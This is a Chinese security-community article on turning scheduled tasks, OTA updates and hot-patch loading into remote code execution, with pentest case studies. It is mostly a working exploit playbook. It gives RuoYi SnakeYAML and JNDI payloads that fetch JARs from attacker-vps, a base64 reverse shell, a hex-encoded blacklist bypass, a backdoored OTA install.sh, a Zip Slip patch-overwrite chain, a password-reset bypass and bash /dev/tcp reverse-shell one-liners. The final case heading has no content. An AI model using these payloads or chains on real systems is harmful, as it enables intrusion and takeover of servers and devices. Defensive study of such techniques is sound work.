# 如何巧用系统合法功能实现RCE-先知社区

> **来源**: https://xz.aliyun.com/news/18972  
> **文章ID**: 18972

---

# 一、概述：为何“合法功能”会被滥用

传统的 RCE 往往源自输入验证缺陷或缓冲区溢出。但在现实中，攻击者更倾向于“借道”系统本身的自动化、运维功能：这些功能通常具有自动执行、长期存在和较高权限这三类属性，一旦缺乏严格的完整性校验或访问控制，就会成为非常有效的持久化入口。

常见被滥用的功能包括：

* **定时任务（Cron / 任务调度器）**：自动化执行周期性维护或备份脚本；
* **OTA（Over-The-Air）更新机制**：用于下发固件或应用更新；
* **热加载补丁/插件机制**：允许在运行时替换模块或加载补丁以提高可用性或实施修复。

这些功能的危险性在于：它们通常运行在系统或服务的上下文中，若缺乏白名单、签名或沙箱隔离，一旦被篡改，就可以借助合法的执行流完成恶意动作。

# 二、技术细节

## 1、总体攻防模型（前置说明）

攻击者要把“恶意逻辑”放入“受信任的自动执行流”中，常见执行流包括：cron/调度器、OTA 升级流程、以及运行时热加载/插件机制。成功的共同条件通常是：

1. 能把文件或配置写入被解析/加载的位置（任意写、路径穿越、上传+publish 流程的 TOCTOU 等）。
2. 执行上下文权限高（root、特权服务账户、内核上下文等，通常配合弱口令、登录绕过、任意密码重置等漏洞拿到管理员权限）。
3. 缺乏完整性校验或沙箱验证（未签名、签名未验证、发布流程直接热加载）。

下面分三大类详细展开攻击技术维度与要点。

## 2、定时任务机制与RCE利用

定时任务（Cron Job或Task Scheduling）是许多后台管理系统和操作系统中的常见功能，用于定期执行特定任务。在一些框架（如若依RuoYi）中，定时任务允许通过**反射机制**动态调用类和方法，这为RCE漏洞提供了可能。

### 2.1 若依框架定时任务RCE分析

若依（RuoYi）是一个基于Spring Boot的后台管理系统，其定时任务功能支持两种调用方式：

1. **调用Spring容器中预定义的Bean方法**：相对安全，但依赖权限控制。
2. **通过类全路径动态实例化并调用**：高风险，允许直接指定类名和方法名，若未严格过滤，可导致任意代码执行。

**漏洞核心代码分析**：

在若依框架中，定时任务的执行逻辑位于JobInvokeUtil类。以下代码片段显示了其动态调用机制：

```
public static void invokeMethod(SysJob sysJob) throws Exception {
    String invokeTarget = sysJob.getInvokeTarget(); // 获取调用目标字符串
    String beanName = getBeanName(invokeTarget);   // 解析Bean名
    String methodName = getMethodName(invokeTarget); // 解析方法名
    List<Object[]> methodParams = getMethodParams(invokeTarget); // 解析参数

    if (!isValidClassName(beanName)) {
        // 从Spring容器获取Bean实例
        Object bean = SpringUtils.getBean(beanName);
        invokeMethod(bean, methodName, methodParams);
    } else {
        // 直接通过类全路径实例化对象 - 高风险点
        Object bean = Class.forName(beanName).getDeclaredConstructor().newInstance();
        invokeMethod(bean, methodName, methodParams);
    }
}
```

此代码未对beanName和methodName进行充分验证，允许攻击者控制类名和方法名，从而实例化任意类并调用其方法。

#### 2.2.1 SnakeYAML反序列化利用

若依框架默认集成SnakeYAML用于解析YAML配置，其Yaml.load()方法存在反序列化漏洞，允许加载恶意YAML内容并执行任意代码。

**利用步骤**：

**1、构造恶意YAML Payload**：攻击者编写包含恶意Java代码的YAML内容，例如：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-vps:8080/yaml-payload.jar"]
  ]]
]
```

该Payload会触发ScriptEngineManager加载远程JAR包，并执行其中定义的恶意代码。

**2、托管恶意JAR文件**：攻击者编译包含恶意构造函数的类（如AwesomeScriptEngineFactory），并将其打包为JAR文件托管在HTTP服务器上。

```
// AwesomeScriptEngineFactory.java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    public AwesomeScriptEngineFactory() {
        try {
            // 恶意代码：执行系统命令
            Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMi4xMjgvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}");
        } catch (Exception e) { }
    }
    // 其他必要重写方法...
}
```

**3、设置定时任务调用目标**：在若依后台创建定时任务，其调用目标设置为：

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker-vps:8080/yaml-payload.jar"]]]]')
```

任务触发时，将执行反序列化操作，从远程加载JAR并执行恶意代码。

**4、绕过黑名单限制**：新版本若依对调用目标字符串设置了黑名单，如屏蔽ldap、http、rmi等协议），但可通过**空格和单引号混淆**或**十六进制编码**绕过。

例如，将Payload转换为十六进制格式：

```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6f72672e79616d6c2e736e616b6579616d6c2e59616d6c2e6c6f6164282721216a617661782e7363726970742e536372697074456e67696e654d616e61676572205b21216a6176612e6e65742e55524c436c6173734c6f61646572205b5b21216a6176612e6e65742e55524c205b22687474703a2f2f7878783a383038302f79616d6c2d7061796c6f61642e6a6172225d5d5d5d2729 WHERE job_id = 1;')
```

此SQL语句通过十六进制编码将恶意Payload写入数据库，绕过前端校验。

#### 2.2.2 JNDI注入利用

Java Naming and Directory Interface（JNDI）注入是另一种常见的RCE手段，尤其适用于低版本JDK（低于8u191）。

**利用步骤**：

**1、启动LDAP服务**：攻击者使用工具（如marshalsec）启动LDAP引用服务器，指向托管恶意类的HTTP服务器。

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://attacker-vps:8080/#Exploit 1389
```

**2、编写恶意Exploit类**：编译一个包含静态代码块的类，在加载时执行恶意操作：

```
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) { }
    }
}
```

**3、设置定时任务调用目标**：将定时任务的调用目标设置为JNDI注入点：

```
javax.naming.InitialContext.lookup('ldap://attacker-vps:1389/Exploit')
```

任务执行时，目标服务器会访问LDAP服务，获取Exploit类的引用并从HTTP服务器加载，触发静态代码块中的恶意代码。

### 2.3 利用链总结

若依定时任务RCE的利用链可概括为：

1. **入口点**：定时任务调用目标参数（invoke\_target）用户可控。
2. **传递过程**：通过JobInvokeUtil.invokeMethod()动态加载类并反射调用方法。
3. **危险操作**：反序列化（Yaml.load()）或JNDI查找（InitialContext.lookup()）执行远程代码。
4. **执行效果**：通过Runtime.exec()或ProcessBuilder启动新进程，实现RCE。

*表：若依定时任务RCE利用链*

|  |  |  |
| --- | --- | --- |
| **步骤** | **关键点** | **可利用的类/方法** |
| 入口点 | 定时任务调用目标输入 | SysJob.invokeTarget |
| 传递过程 | 反射机制 | Class.forName().newInstance()、Method.invoke() |
| 危险操作 | 反序列化/JNDI注入 | Yaml.load()、InitialContext.lookup() |
| 执行效果 | 命令执行 | Runtime.exec()、ProcessBuilder.start() |

## 3、OTA更新机制与RCE利用

空中下载（OTA，Over-The-Air）更新是物联网（IoT）设备和移动应用中常见的技术，用于远程升级固件或应用。OTA流程涉及更新包下载、验证和安装，若任何环节存在缺陷，可能导致RCE。

### 3.1 OTA更新流程与安全风险

典型OTA更新流程包括：

1. **更新检查**：设备向服务器查询更新。
2. **包下载**：从服务器下载更新包（通常为压缩文件）。
3. **完整性验证**：验证数字签名或哈希值。
4. **安装**：解压并安装更新包。

**安全风险点**：

* **更新包验证不足**：若未严格验证签名或哈希，攻击者可替换恶意包。
* **传输过程未加密**：中间人攻击篡改更新包。
* **安装脚本权限过高**：安装过程中执行脚本未受限制。
* **回滚机制缺陷**：允许降级到有漏洞的旧版本。

### 3.2 攻击模型与利用方式

攻击者可通过以下方式利用OTA更新实现RCE：

#### 3.2.1 恶意更新包构造

1. **逆向分析**：攻击者分析合法更新包格式（如ZIP、Tar），并构造恶意包。
2. **植入恶意代码**：在更新包中替换二进制文件（如ELF可执行文件）或插入恶意脚本（如Shell脚本）。
3. **篡改验证信息**：若验证机制薄弱（如仅校验文件名），攻击者可轻易绕过；若使用强加密签名，则需窃取签名密钥或利用漏洞绕过检查。

**示例利用命令**：

假设设备使用Shell脚本处理安装，更新包中包含install.sh：

```
#!/bin/bash
# 正常更新操作
echo "Installing updates..."
cp -r firmware /usr/share/
# 恶意代码注入
bash -c 'bash -i >& /dev/tcp/attacker-vps/4444 0>&1' &
```

设备安装更新时，将执行此脚本并反弹Shell。

#### 3.2.2 中间人攻击

攻击者劫持设备与服务器之间的通信（如DNS欺骗），将更新请求重定向至恶意服务器，下载恶意包。

**利用工具**：

* Ettercap：ARP欺骗劫持局域网流量。
* Burp Suite：拦截HTTPS请求（需证书劫持）。

#### 3.2.3 安全引导绕过

某些设备缺乏安全引导（Secure Boot）机制，允许未签名代码执行。攻击者可结合硬件接口（如UART）中断启动过程，植入恶意代码。

### 3.3 利用链总结

OTA更新RCE利用链：

1. **入口点**：更新服务器被入侵或通信被劫持。
2. **传递过程**：设备下载恶意更新包。
3. **危险操作**：安装过程解压文件并执行脚本（如install.sh）。
4. **执行效果**：恶意脚本以root权限运行，获得完全控制。

## 4 热加载补丁机制与RCE利用

热加载（Hot Patching）允许系统在运行时更新代码或资源，无需重启。常见于Web服务器（如Spring Boot DevTools）和游戏服务器。然而，若补丁来源不可信或加载机制不安全，可能导致RCE。

### 4.1 热加载原理与风险

热加载通常通过监控文件变化（如Class文件、JAR文件）并重新加载类实现。风险包括：

* **补丁来源不可信**：从不可信源加载补丁代码。
* **加载过程无验证**：未校验补丁的完整性和真实性。
* **执行环境隔离不足**：补代码拥有过高权限。

### 4.2 攻击模型与利用方式

#### 4.2.1 契约锁系统热加载机制实现RCE（远程代码执行）

具体细节见这位师傅的博客，思路非常绝：<https://blog.csdn.net/qq_32034221/article/details/149567925>。

**利用契约锁热加载机制实现RCE的步骤**

1. **漏洞入口定位**

* 目标为契约锁电子签署平台（端口通常为9180）的/api/pdfverifier接口。
* 该接口接受OFD文件（实质为ZIP格式）上传，并在处理时存在**目录穿越漏洞（Zip Slip）**。

2. **构造恶意OFD压缩包**

* 攻击者创建一个OFD文件（可重命名为ZIP进行操作），在其内部构造一个特殊的文件条目，其文件名包含../序列，目的是在目标服务器上跳出解压目录。
* **Payload示例**：将恶意JAR文件的路径设置为 ../../../../opt/qiyuesuo/security/private-security-patch.jar（针对Linux系统）。这意味着当OFD文件在服务器上被解压时，其内容会被写入到服务器上绝对路径为/opt/qiyuesuo/security/的目录中，覆盖原有的合法补丁JAR文件。
* **关键点**：需要精确计算../的数量以从临时的解压目录穿越到系统的目标目录。

3. **制作恶意补丁JAR文件**

* 攻击者需要准备一个恶意的JAR文件，其核心在于包含一个特定的Java类。
* **类名与路径**：该类的**完整类名（FQCN）必须以 com.qiyuesuo.security.patch.filter.logic.开头**（例如 com.qiyuesuo.security.patch.filter.logic.AAAAA）。这是为了匹配契约锁热加载组件 (private-security-loader-1.0.0.jar) 中定义的加载逻辑。
* **恶意代码放置**：将希望执行的恶意代码（例如注入内存马的代码）写入该类的**静态代码块（static block）** 中。静态代码块会在类被JVM加载时自动执行，从而触发RCE。
* 为了增加可靠性，攻击者通常会选择**修改一个从官方获取的、真实的 private-security-patch.jar文件**，而不是从头创建一个新的JAR，以避免版本兼容性问题导致加载失败。使用压缩工具（如jar命令或7-Zip）将恶意类文件添加到这个官方的JAR包中。

4. **上传并触发漏洞**

* 通过HTTP请求将构造好的恶意OFD文件上传到目标的 /api/pdfverifier接口。
* 服务器端的漏洞代码会对该文件进行解压，由于没有对文件名进行安全校验，恶意JAR文件被成功写入并覆盖 /opt/qiyuesuo/security/private-security-patch.jar。

5. **触发热加载执行代码**

* 契约锁系统有一个名为 private-security-loader-1.0.0.jar的热加载组件（SecurityLibManager类）。它会**定时检查**private-security-patch.jar文件的哈希值是否有变化。
* 一旦检测到文件被更新（即被恶意覆盖），该组件便会自动重新加载这个JAR包。
* 在加载过程中，它会扫描 com.qiyuesuo.security.patch.filter.logic包下的所有类并实例化它们。实例化过程会触发恶意类中的**静态代码块**，从而导致其中嵌入的恶意代码被执行，实现远程代码执行（RCE），例如注入一个内存Webshell。

**利用契约锁热加载机制实现RCE的总结**

**入口点**（恶意OFD文件上传） → **文件操作**（利用Zip Slip漏洞覆盖热补丁JAR） → **机制滥用**（利用合法的热加载监控机制自动加载被恶意篡改的补丁） → **代码执行**（静态代码块中的恶意代码在类初始化时被执行）。

### 4.3 利用链总结

热加载RCE利用链：

1. **入口点**：热加载目录文件上传、恶意HTTP请求触发重加载。
2. **传递过程**：类加载器读取恶意Class文件。
3. **危险操作**：实例化类并调用方法。
4. **执行效果**：恶意代码以应用权限执行。

# 三、实战中的案例

## 1、某大型国企安全设备任意文件上传+定时任务实现RCE

在某次攻防演习中，在资产收集中发现某大型国企的安全设备的用户手册中记载了登录的默认用户名/密码，且没有强制修改密码的机制，于是用弱密码成功进入安全设备的管理后台。

​

该安全设备是一个网页防篡改系统，却离谱的有文件发布的功能。

文件发布可以上传文件，通过dir和file参数传入上传路径及文件名，代码中并未对上传路径和文件内容进行校验，因此通过//xxx/../../../../etc/cron.d的方式（//xxx为应用系统中已创建的目录），可利用路径穿越实现任意路径文件上传。

  
但是仅能任意文件上传可是拿不到多少攻击分的，我们要想办法RCE。当上传功能缺乏路径校验时，攻击者不仅可以将文件写入 Web 目录获取 WebShell，还可能进一步将恶意脚本上传到系统的定时任务配置目录（如 /etc/cron.d/）。由于 Cron 服务会自动加载该目录下的配置文件并按照规则定期执行命令，攻击者只需在上传的文件中写入特定的 Cron 任务指令，就能让系统在预定时间点自动执行任意命令。此时，上传漏洞与定时任务机制便形成了攻击链：**文件上传突破防护→ 定时任务自动执行 → 合法功能被滥用为持久化RCE**。因为这个系统是一个安全设备管理后台，因此写WebShell的思路是行不通的，于是我们尝试使用定时任务来执行命令。

上传成功，ips上成功反弹shell，拿下这个系统服务器的控制权限，后面就是在服务器上进一步搜集资产、搭隧道、内网渗透了。



## 2、某大型企业数字化平台任意密码重置漏洞+利用远程任务实现RCE

在某次众测中，首先是用重置密码的逻辑漏洞成功重置了管理员的密码。  
重置密码是采用邮箱验证码的形式，我们先输入admin账号和正确的图形验证码，进入发送邮箱验证码的环节



系统会根据用户名admin自动反显出管理员的邮箱并发送邮箱验证码，输入任意的邮箱验证码，如123456

​

点击下一步，burp拦截校验邮箱验证码接口的返回包并将status由0改成1

  
成功进入重置密码环节，输入任意密码，如Aa147258，点击下一步，直接进入下一步会报错sid为空，可见上一步校验邮箱验证码的接口中本来是应该返回这个sid值的，但是因为我们输入错误的邮箱验证码但是又修改返回报文中的status值强制进入了重置密码的环节，导致sid值缺失。

但是翻了一下前面的包竟然发现sid值在前面正常的报文中是存在的，比如在发送邮箱验证码的请求报文中就存在这个sid，



我们将前面流程中的sid粘贴到重置密码接口中试一下能不能复用

  
提示重置成功，我们用重置后的密码成功进入系统。

  
进入系统后发现很多敏感信息，如：服务器资源数据，各服务器（**包括核心服务**）、微服务、中间件、实例等详细监控信息，服务器ssh远程连接密钥、用户管理、接入系统密码、监控密码等。进入系统后进行简单的信息收集后发现该系统具有监控和运维服务器的功能，在运维工具菜单有一个远程主机管理-任务管理，点开是一个添加计划任务的功能，这连自己找定时任务目录都不需要了，直接在这个功能中添加要执行的命令就可以了。



我们在执行命令处输入ping `hostname`.`whoami`.xxx.dnslog.cn，其中xxx.dnslog.cn为dnslog的域名，此处用dnslog证明可以命令执行。



编辑好后保存，点击立即执行，在dnslog中成功收到请求：

因为这是个SRC项目，不允许反弹shell，所以就点到为止。如果是在演习中，可以在vps开启监听后，在要执行的命令处输入bash -i >& /dev/tcp/attacker-vps/4444 0>&1来反弹shell进一步拿下系统权限。

## **3、某大型车企OTA管理平台弱口令+利用ota文件注入实现RCE**

